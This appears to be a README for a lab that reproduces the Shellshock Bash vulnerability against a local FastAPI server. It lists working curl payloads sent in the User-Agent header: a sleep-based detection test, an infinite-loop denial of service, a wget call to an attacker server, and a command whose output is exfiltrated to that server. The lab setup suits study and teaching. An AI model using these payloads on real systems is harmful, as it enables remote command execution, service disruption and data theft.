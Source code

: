 # Shellshock vulnerability

## Running the resources you need for reproducing the Shellshock vulnerability
1. Follow the instructions in the README.md file in the `shellshock-server` directory.
2. Start the attacker server from the `attacker-server` directory. The server will run on port 8080 by default, but this aspect can be changed in the `application.properties` file.
3. Open a linux terminal, you can now play with the system.

## Commands
The basic command to the FastAPI server would look like this:
```bash
curl -A 'Mozilla/5.0' -X POST 127.0.0.1:80/user-agent > /dev/null
```

The commands that takes advantage of the Shellshock vulnerability would look like this:
```bash
curl -A '() { :;}; _your_evil_command_goes_here_' -X POST 127.0.0.1:80/user-agent
```

## Examples
### How can you find if the server is vulnerable to Shellshock exploit
```bash
curl -A '() { :;}; /bin/sleep 5|/sbin/sleep 5|/usr/bin/sleep 5' -X POST 127.0.0.1:80/user-agent > /dev/null
```
### A simple (but very effective) denial-of-service example
```bash
curl -A '() { :;}; while true; do :; done;' -X POST 127.0.0.1:80/user-agent > /dev/null
```
### Sending a request to an attacker's server
```bash
curl -A '() { :;}; /usr/bin/wget http://host.docker.internal:8080/attacker' -X POST 127.0.0.1:80/user-agent > /dev/null
```
### Running a command on the FastAPI server and sending the result via a POST request to the attacker's server
```bash
curl -A '() { :;}; curl -X POST -H "command: ls /" -d $(ls /) host.docker.internal:8080/command-outputs' -X POST 127.0.0.1:80/user-agent > /dev/null
```

The last command allows us to run any command and to store it's result in our server.